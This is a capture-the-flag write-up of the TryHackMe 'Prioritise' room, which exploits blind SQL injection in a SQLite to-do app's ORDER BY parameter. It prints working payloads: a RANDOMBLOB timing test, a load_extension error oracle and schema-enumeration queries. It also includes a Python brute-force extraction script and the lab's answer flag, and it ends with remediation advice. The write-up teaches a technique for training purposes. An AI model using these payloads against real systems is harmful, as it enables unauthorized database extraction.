






# TryHackMe — Prioritise: Writeup

> In this challenge you will explore some less common SQL Injection techniques.

## 1. Introduction

This room focuses on SQL injection against a **SQLite** backend, using a technique that's less common than the classic `UNION SELECT` or `AND 1=1` payloads. Since SQLite doesn't support stacked queries or many of the tricks used against MySQL/MSSQL, this challenge instead abuses:

- A CPU-intensive `RANDOMBLOB` / `HEX` payload as a **time-based** confirmation.
- `load_extension()` inside a `CASE WHEN` statement to turn a **boolean condition into an HTTP 500 error**, giving a reliable oracle for blind/boolean-based extraction.



---

## 2. Reconnaissance

The target is a simple to-do list web application ("Prioritise") built with a Bootstrap front end. It shows:

- A table of to-do items, each with an **ID**, **title/done status**, and a **due date**.
- A dropdown to sort the list by `title`, `done`, or `date`, which submits via GET to `/` using an `order` query parameter.
- A form to add a new item (`POST /new`) and a delete link per row (`GET /delete/<id>`).



The interesting part isn't the HTML/CSS — it's the **sort dropdown**, because it directly maps user input to an `ORDER BY` clause on the server side. Ordering clauses are a classic spot for SQL injection because they often get concatenated directly into the query without parameterization (you can't parameterize a column name/order direction the same way you can a value).

This gave the first lead:

```
http://10.48.148.16/?order=title
```

This returns the list sorted by title — confirming the parameter is passed straight to the backend query.

---

## 3. Discovering the Injection Point

Testing a single quote in the `order` parameter:

```
http://10.48.148.16/?order='
```

**Result:** HTTP `500 Internal Server Error`.



This is the first solid signal of SQL injection — the raw quote broke the SQL syntax and the database driver threw an unhandled error, which the web framework surfaced as a 500 instead of catching it gracefully.

---

## 4. Confirming the Database Engine (Time-Based Check)

Before going further, I needed to know **which** database engine was behind this (MySQL, PostgreSQL, SQLite, etc.), since payload syntax differs significantly between them.

**Attempt 1 — MySQL style:**

```
?order=(SLEEP(10))
```

No delay observed.

**Attempt 2 — PostgreSQL style:**

```
?order=pg_sleep(10)
```

No delay observed.

**Attempt 3 — SQLite-style CPU-burn payload:**

```
?order=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

This one **worked** — the response was noticeably delayed.

**Why this works:** SQLite has no native `SLEEP()` function. Instead, you can force a delay indirectly by making the database do a large, expensive computation. `RANDOMBLOB(500000000)` generates a huge random binary blob, `HEX()` converts it to a hex string (doubling the workload), `UPPER()` uppercases it, and `LIKE()` then compares it against a short string. All of that forces SQLite to churn through hundreds of megabytes of data before it can return a result, which shows up as a real-world time delay — a "computational sleep."

This confirmed the backend is **SQLite**.

---

## 5. Turning a Boolean Condition into a 500/200 Oracle

Since SQLite doesn't support easy conditional errors like `AND 1=CAST(... AS INT)` tricks used elsewhere, I used a different primitive: **`load_extension()`**.

By default, SQLite's `load_extension()` function is **disabled** for security reasons, so calling it in a query throws an error — but only when it's actually _reached_ during execution. This makes it perfect for a `CASE WHEN` conditional error oracle:

```sql
CASE WHEN (<condition>) THEN load_extension(1) ELSE date END
```

- If `<condition>` is **TRUE** → `load_extension(1)` executes → SQLite throws an error → the app returns **HTTP 500**.
- If `<condition>` is **FALSE** → the `ELSE date` branch runs instead (harmless) → the app returns **HTTP 200**.

**Test 1 (condition true):**

```
?order=CASE WHEN(1=1) THEN load_extension(1) ELSE date END
```

→ **500 error** ✅ (confirms the oracle works when true)

**Test 2 (condition false):**

```
?order=CASE WHEN(1=2) THEN load_extension(1) ELSE date END
```

→ **200 OK** ✅ (confirms the oracle stays silent when false)

This confirmed a reliable **boolean-based blind SQL injection** oracle: _500 = true, 200 = false_.




---

## 6. Enumerating Table Names

With a working oracle, the next step was to enumerate the database schema via SQLite's built-in `sqlite_master` table, which stores metadata about every table, index, and view.

### 6.1 Getting the length of the first table name

First, I sanity-checked the oracle against the `tbl_name` column itself, using a condition that should always be true (since every table name has a length greater than 0):

```
?order=CASE WHEN((SELECT LENGTH(tbl_name) FROM sqlite_master WHERE type='table' LIMIT 1)>0) THEN load_extension(1) ELSE date END
```

→ **500 error**, as expected — this just confirms the subquery runs and returns a row.

From there I narrowed it down by testing specific lengths. Guessing `=5`:

```
?order=CASE WHEN((SELECT LENGTH(tbl_name) FROM sqlite_master WHERE type='table' LIMIT 1)=5) THEN load_extension(1) ELSE date END
```

Encoded:

```
http://10.48.148.16/?order=CASE%20WHEN((SELECT%20LENGTH(tbl_name)%20FROM%20sqlite_master%20WHERE%20type%20=%20%27table%27%20LIMIT%201)=5)%20THEN%20load_extension(1)%20ELSE%20date%20END
```

→ **500 error**, confirming the first table's name is **5 characters long**.

### 6.2 Getting the length of the second table name

```
?order=CASE WHEN((SELECT LENGTH(tbl_name) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 1)=4) THEN load_extension(1) ELSE date END
```

→ **500 error**, confirming the second table's name is **4 characters long**.

### 6.3 Extracting the characters with SUBSTR

Once the length was known, each character was brute-forced one at a time using `SUBSTR`:

```
?order=CASE WHEN((SELECT SUBSTR(tbl_name,1,1) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0)='a') THEN load_extension(1) ELSE date END
```

By cycling through the alphabet at each position (and repeating with `OFFSET 1` for the second table), the full table names were recovered:

| Table   | Columns discovered            |
| ------- | ----------------------------- |
| `todos` | `id`, `title`, `done`, `date` |
| `flag`  | `flag`                        |

---

## 7. Automating the Extraction

Manually toggling one character at a time doesn't scale, so I wrote a small Python script to automate the character-by-character extraction using the same boolean oracle (500 = correct guess).

```python
import requests
import string

url = "http://10.48.148.16/"
chars = string.ascii_letters + string.digits + "_{}-/"

flag = ""

while len(flag) < 40:
    counter = len(flag) + 1

    for char in chars:
        payload = (
            #f"CASE WHEN((SELECT SUBSTR(flag,{counter},1) FROM flag)='{char}') THEN load_extension(1) ELSE date END" # for getting flag
            #f"CASE WHEN((SELECT SUBSTR(tbl_name,{counter},1) FROM sqlite_master WHERE type = 'table' LIMIT 1 OFFSET 0) ='{char}') THEN load_extension(1) ELSE date END"
            # for getting table names OFFSET 0 is table 1 OFFSET 1 is table 2...etc
            #f"CASE WHEN((SELECT SUBSTR(name,{counter},1) FROM PRAGMA_TABLE_INFO('flag')  LIMIT 1 OFFSET 0) ='{char}') THEN load_extension(1) ELSE date END"
            # for getting columns names OFFSET 0 is column 1 OFFSET 1 is column 2...etc
            #f"CASE WHEN(( SELECT SUBSTR(<coloumn-name>, {counter}, 1) FROM <table-name> LIMIT 1 OFFSET 0 ) = '{char}') THEN load_extension(1) ELSE date END"
            #for getting columns data change table-name and column-name to get particular data

        )

        response = requests.get(url, params={"order": payload})

        # Change this depending on what the page shows
        if  response.status_code==500:
            flag += char
            print(flag)
            break

```

**How it works:**

1. For each position in the flag, loop through every candidate character.
2. Send the `order` payload comparing `SUBSTR(flag, position, 1)` to the candidate character.
3. If the response is `500`, the character is correct → append it and move to the next position.
4. Repeat until the full flag is recovered.

This same technique (with minor payload variations, seen commented out in the script) can also be used to re-enumerate table names or column names via `sqlite_master` / `PRAGMA_TABLE_INFO`, confirming the method is generic and reusable for any SQLite blind SQLi scenario.

---

## 8. Result

Running the script against the `flag` table's `flag` column recovered the full flag value.

**Flag:** `flag{65f2f8cfd53d59422f3d7cc62cc8fdcd}`



---

## 9. Key Takeaways

- Not all databases support `SLEEP()` — for SQLite, expensive functions like `RANDOMBLOB`/`HEX` can simulate a time-based delay.
- `load_extension()` is disabled by default in SQLite, making it a convenient way to force a deterministic error (and therefore an HTTP 500) inside a `CASE WHEN` — turning any boolean condition into a distinguishable true/false oracle.
- `sqlite_master` is SQLite's equivalent of `information_schema` — it's the starting point for schema enumeration in blind SQLite injection.
- Any parameter that controls `ORDER BY` (or other clauses that can't easily be parameterized) deserves close attention, since developers often concatenate these directly into SQL rather than using bound parameters.
- Blind boolean-based extraction can be fully scripted once you have a reliable oracle (status code, response length, timing, etc.).

---

## 10. Remediation Recommendations

- Never concatenate user input directly into `ORDER BY` clauses. Instead, validate against a strict allow-list of column names (e.g., `if order in ["title", "done", "date"]`).
- Catch database exceptions server-side and return a generic error page instead of leaking a raw 500 that reveals query behavior.
- Apply least privilege to the database connection used by the app.
- Consider using an ORM with parameterized queries throughout, including for sorting/filtering logic.
